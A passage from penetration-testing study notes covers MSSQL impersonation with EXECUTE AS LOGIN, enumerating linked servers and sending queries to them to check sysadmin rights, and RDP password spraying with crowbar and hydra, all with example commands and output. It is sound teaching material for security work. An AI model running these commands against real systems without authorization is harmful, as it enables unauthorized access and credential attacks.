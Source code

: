 **Note:** It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that  database. If a user you are trying to impersonate doesn't have access 
to the DB you are connecting to it will present an error. Try to move to  the master DB using `USE master`

### **Communicate with Other Databases with MSSQL**

**Identify linked Servers in MSSQL**

```
1> SELECT srvname, isremote FROM sysservers
2> GO

srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0
```

We have the name of the server and the column `isremote`, where `1` means is a remote server, and `0` is a linked server.

**Send commands to linked servers.**

```
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
------------------------------ ------------------------------ ------------------------------ -----------
DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote                                1
(1 rows affected)
```

**Note:** If we need to use quotes in our query to the linked server,  we need to use single double quotes to escape the single quote. To run multiples commands at once we can divide them up with a semi colon (;).

# RDP

## **Misconfigurations**

### Crowbar - RDP Password Spraying

```
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123’
```

### **Hydra - RDP Password Spraying**

```
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
